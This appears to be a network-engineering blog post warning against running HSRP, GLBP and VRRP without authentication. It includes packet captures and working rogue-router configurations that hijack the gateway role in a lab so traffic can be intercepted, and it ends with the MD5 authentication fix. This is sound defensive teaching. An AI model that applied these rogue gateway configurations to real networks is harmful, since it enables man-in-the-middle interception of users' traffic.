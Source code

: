 ```yaml
---
title: Don't use FHRPs without Authentication
publication_date: 2019-02-17
tags:
- Route/Switch
- Security
author: Brandon James
post_image: /static/images/fhrp_diagram1.png
---
```


You are most likely running a first hop redundancy protocol somewhere in your network. If you aren't routing at the access layer and your running a traditional redundant core (ie you aren't using a switch virtualization platform such as Cisco's VSS), one of those places is probably your user facing SVIs. If you aren't using *encrypted* authentication on your FHRP, you're putting your enterprise at risk. 

As a bit of a proof of concept, I've put together the following to show how FHRPs can be used as a channel to launch a Man-in-the-Middle attack. 

[![FHRP Diagram](/static/images/fhrp_diagram1.png "FHRP Diagram")](/static/images/fhrp_diagram1.png)

In the above environment we have two friendly routers on the left. Each router has three interfaces participating in FHRPs. Those interfaces are each plugged into a switch named for the FHRP running on said interfaces. To the right, we have our malicious routers ready to play MitM with our enterprise traffic.

_Note: In most cases this will only allow a partial MitM attack, traffic sent from the users will go to the malicious router, but traffic sent to the user will still need to come from one of the original routers. Regardless, this is still a huge security risk_

Interface configurations from R1 and R2 follow:

```
R1#sh run | beg interface Gigabit
interface GigabitEthernet0/0
 ip address 10.0.0.2 255.255.255.0
 no ip redirects
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 preempt
!
interface GigabitEthernet1/0
 ip address 10.0.1.2 255.255.255.0
 no ip redirects
 glbp 1 ip 10.0.1.1
 glbp 1 preempt
 negotiation auto
!
interface GigabitEthernet2/0
 ip address 10.0.2.2 255.255.255.0
 negotiation auto
 vrrp 1 ip 10.0.2.1

R2#sh run | beg interface Gigabit
interface GigabitEthernet0/0
 ip address 10.0.0.3 255.255.255.0
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 priority 50
 standby 1 preempt
!
interface GigabitEthernet1/0
 ip address 10.0.1.3 255.255.255.0
 glbp 1 ip 10.0.1.1
 glbp 1 priority 50
 glbp 1 preempt
 negotiation auto
!
interface GigabitEthernet2/0
 ip address 10.0.2.3 255.255.255.0
 negotiation auto
 vrrp 1 ip 10.0.2.1
 vrrp 1 priority 50
```

### Gathering Data

The three major FHRPs are VRRP, HSRP and GLBP. All three of them use multicast to send protocol advertisements. This means that your switches are happily forwarding these advertisements to anyone who is willing to listen. Our malicious actors are aware of this and start taking packet captures:

Malicious_HSRP captures the following being multicast to 224.0.0.12:

```
Cisco Hot Standby Router Protocol
    Group State TLV: Type=1 Len=40
        Version: 2
        Op Code: Hello (0)
        State: Standby (5)
        IP Ver.: IPv4 (4)
        Group: 1
        Identifier: ca:02:2a:cc:00:08 (ca:02:2a:cc:00:08)
        Priority: 50
        Hellotime: Default (3000)
        Holdtime: Default (10000)
        Virtual IP Address: 10.0.0.1
    Text Authentication TLV: Type=3 Len=8
        Authentication Data: Default (cisco)
```

 Malicious_GLBP captures the following being multicast to 224.0.0.102:

```
Gateway Load Balancing Protocol
    Version?: 1
    Unknown1: 0
    Group: 1
    Unknown2: 0000
    Owner ID: ca:01:2a:bd:00:1c (ca:01:2a:bd:00:1c)
    TLV l=28, t=Hello
        Type: Hello (1)
        Length: 28
        Unknown1-0: 00
        VG state?: Active (32)
        Unknown1-1: 00
        Priority: 100
        Unknown1-2: 0000
        Helloint: 3000
        Holdint: 10000
        Redirect: 600
        Timeout: 14400
        Unknown1-3: 0000
        Address type: IPv4 (1)
        Address length: 4
        Virtual IPv4: 10.0.1.1
    TLV l=20, t=Request/Response?
        Type: Request/Response? (2)
        Length: 20
        Forwarder?: 1
        VF state?: Active (32)
        Unknown2-1: 00
        Priority: 167
        Weight: 100
        Unknown2-2: 6338400258abcd
        Virtualmac: Cisco_00:01:01 (00:07:b4:00:01:01)
```

Note: The built in protocol filter for GLBP in wireshark doesn't seem to have information on all the fields. However, all the information we require is visible (Group, IP and Priority).

Malicious_VRRP captures the following being multicast to 224.0.0.18:

```
Virtual Router Redundancy Protocol
    Version 2, Packet type 1 (Advertisement)
    Virtual Rtr ID: 1
    Priority: 100 (Default priority for a backup VRRP router)
    Addr Count: 1
    Auth Type: No Authentication (0)
    Adver Int: 1
    Checksum: 0x6efb [correct]
    [Checksum Status: Good]
    IP Address: 10.0.2.1
```

### Launching the Attack

Now that our malicious actors have gathered the required information, they are ready to attack. The process is very simple.

First the malicious routers change their default gateways to be either of the friendly routers actual IP addresses, then they configure their interface with matching FHRP settings, with the exception of the priority value, which should be set to a better (higher) value than the current active FHRP router.

The static route and interface configurations for the malicious routers follows:

```
Malicious_HSRP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.0.2
Malicious_HSRP#sh run int gi0/0
Building configuration...

Current configuration : 218 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.0.254 255.255.255.0
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 priority 150
 standby 1 preempt

Malicious_GLBP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.1.2
Malicious_GLBP#sh run int gi0/0
Building configuration...

Current configuration : 190 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.1.254 255.255.255.0
 glbp 1 ip 10.0.1.1
 glbp 1 priority 150
 glbp 1 preempt

Malicious_VRRP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.2.2
Malicious_VRRP#sh run int gi0/0
Building configuration...

Current configuration : 174 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.2.254 255.255.255.0
 vrrp 1 ip 10.0.2.1
 vrrp 1 priority 150
```

Note: in the case of GLBP, if load-balancing is configured (it's not by default), the weight may be adjusted in order to make the malicious router more preferred. In addition, clients on the GLBP may continue to use the old GLBP until their old ARP entries expire.

At this point the malicious routers are now the default-gateway for all devices on their segments:

```
Malicious_HSRP#sh standby brief 
                     P indicates configured to preempt.
                     |
Interface   Grp  Pri P State   Active          Standby         Virtual IP
Gi0/0       1    150 P Active  local           10.0.0.2        10.0.0.1


Malicious_GLBP#sh glbp brief  
Interface   Grp  Fwd Pri State    Address         Active router   Standby router
Gi0/0       1    -   150 Active   10.0.1.1        local           10.0.1.2
Gi0/0       1    1   -   Listen   0007.b400.0101  10.0.1.2        -
Gi0/0       1    2   -   Listen   0007.b400.0102  10.0.1.3        -
Gi0/0       1    3   -   Active   0007.b400.0103  local           -
 

Malicious_VRRP#sh vrrp brief 
Interface          Grp Pri Time  Own Pre State   Master addr     Group addr
Gi0/0              1   150 3414       Y  Master  10.0.2.254      10.0.2.1   
```

At this point the attacker can just sit back and watch the packets fly by.

### Solution

Fortunately, all three of the FHRPs support encrypted authentication and it can take as little as one line to configure. 

```
R1(config-if)#standby 1 authentication md5 key-string SECURE_KEY
R1(config-if)#glbp 1 authentication md5 key-string SECURE_KEY
R1(config-if)#vrrp 1 authentication md5 key-string SECURE_KEY
```

*Note: This note was originally on my personal blog. I've backdated the post to show the day it was originally written*